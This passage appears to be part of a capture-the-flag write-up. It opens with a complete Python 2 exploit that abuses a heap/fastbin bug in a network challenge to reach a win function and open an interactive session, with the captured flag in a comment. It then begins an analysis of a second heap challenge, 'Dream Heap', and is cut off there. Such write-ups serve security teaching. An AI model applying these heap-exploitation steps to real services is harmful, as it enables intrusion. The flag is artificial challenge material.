```
  #!/usr/bin/env python2
  import sys, socket, telnetlib
  from struct import *

  def recvuntil(t):
      data = ''
      while not data.endswith(t):
          tmp = s.recv(1)
          if not tmp: break
          data += tmp

      return data

  def interactive():
      t = telnetlib.Telnet()
      t.sock = s
      t.interact()

  def sendline(data):
    s.send(data + "\n")

  def p32(x): return pack('<I', x)
  def u32(x): return unpack('<I', x)[0]
  def p64(x): return pack('<Q', x)
  def u64(x): return unpack('<Q', x)[0]

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((sys.argv[1], int(sys.argv[2])))

  for x in list(range(4)):
    recvuntil("green to provision:")
    sendline(str(32))

  recvuntil("green to provision:")
  sendline("-2")

  for x in list(range(4)):
    recvuntil("green to provision:")
    sendline(str(32))

  #fastbin use fifo, so next time will return the chunk pointed by v9
  # so we can now execute:  if ( *(_DWORD *)v9 == 4 ) win_func();
  interactive() #flag{Gr34t_J0b_t0ur1ng_0ur_d1gi7al_L1nk5}
  s.close()
```

## Dream Heap

We have the following action permitted:

- Write dream: we have global var in bss that contains the dreams and another global var in bss just below the precedent that contains the size 
    of the dream 
   ``` 
    puts("How long is your dream?");
    __isoc99_scanf("%d", &v1);
    buf = malloc(v1);
    puts("What are the contents of this dream?");
    read(0, buf, v1);
    HEAP_PTRS[INDEX] = (__int64)buf;
    SIZES[INDEX++] = v1;
   ```
   there's no limit on how much dream we can make, and every dream is treated as a char * and so we can insert something in.